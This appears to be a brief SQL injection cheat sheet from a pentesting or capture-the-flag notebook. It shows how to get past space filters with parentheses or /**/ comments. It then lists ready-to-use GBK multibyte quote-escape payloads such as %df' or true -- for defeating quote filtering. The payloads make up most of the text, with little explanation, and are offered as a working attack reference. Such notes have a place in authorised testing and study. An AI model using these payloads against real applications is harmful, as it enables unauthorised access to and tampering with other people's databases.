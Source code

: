 #sqli 

## Filter SPACE
If a filter removes or replaces spaces, it can be bypassed by using parentheses `()` or empty comments `/**/`.


## Filter `'`
### GBK Characters
https://www.bases-hacking.org/injections-sql-avancees.html 

```sql
%ef' or true -- 
```

```sql
%df' or true -- 
```

```sql
%bf' or true -- 
```

```sql
%a8' or true -- 
```

```sql
%8c' or true -- 
```
